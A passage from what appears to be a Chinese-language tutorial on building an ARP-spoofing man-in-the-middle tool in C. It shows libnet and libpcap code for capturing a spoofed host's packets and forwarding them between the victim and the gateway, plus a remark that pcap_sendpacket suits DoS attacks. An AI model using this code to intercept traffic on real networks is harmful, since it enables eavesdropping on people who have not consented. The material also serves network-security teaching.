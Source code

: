 ```c
    }

    /* success */
    libnet_destroy(net_t);
    return 0;
}
```

>一点自己的说明：其实libpcap也有一个发包的函数，pcap_sendpacket()函数，是要先完全构建好packet，再用这个函数全部发送出去，我个人在尝试的过程中，ARP欺骗包用这个发送没有问题，但是在转发的过程中出现了一些问题，至于具体的原因我还没有想清楚，到是发包比较专业的libnet实现了这个目标，后来就使用libnet包了。然而pcap_sendpacket()函数仍然有着发包非常迅速的特点，这使得在有些问题上(比如Dos攻击)就非常适合使用它。

## 数据包的转发

这里我们采用，多线程抓包，并在抓到包之后迅速处理并转发。

因为数据包是转瞬即逝的，如果捕获一个，处理，再捕获下一个的话可能会漏掉一些数据包，降低我们的效率。

可能有人会问到，为什么非要先ARP欺骗呢，直接抓包并转发不就好了吗？

这里要明确，“抓包”是复制一份包，而不是截获包，而现在被ARP欺骗的主机已经断网的情况下，我们复制它的包帮他转发，这样才是经过我们的手帮他实现上网。

原理并不难，对于发来的包进行分析，确认是目标主机发来的，我们就帮他转发到网关，确认是网关发来的，我们就帮他转发到目标主机

打开设备并抓包的函数：

```c
int forward_packet(void *ARG) {

    /* defination */
    MITM_info arg = *(MITM_info *)ARG;
    char *dev = arg.dev;
    char errbuf[PCAP_ERRBUF_SIZE];
    struct bpf_program filter;
    
    /* start dev */
    dev = pcap_lookupdev(errbuf);
    if (dev == NULL) {
        printf("%s\n", errbuf);
        exit(1);
    }
    arg.dev = dev;

    /* open device */
    pcap_t *handle = pcap_open_live(dev, 65535, 1, 0, errbuf);
    if (!handle) {
        printf("device open error.\n");
        exit(1);
    }

    /* compile filter */
    pcap_compile(handle, &filter, arg.filter, 1, 0);  
    pcap_setfilter(handle, &filter);

    /* capture packets */
    pcap_loop(handle, -1, getPacket, (u_char *)&arg);

    /* end */
    pcap_close(handle);

    return 0;
}
```
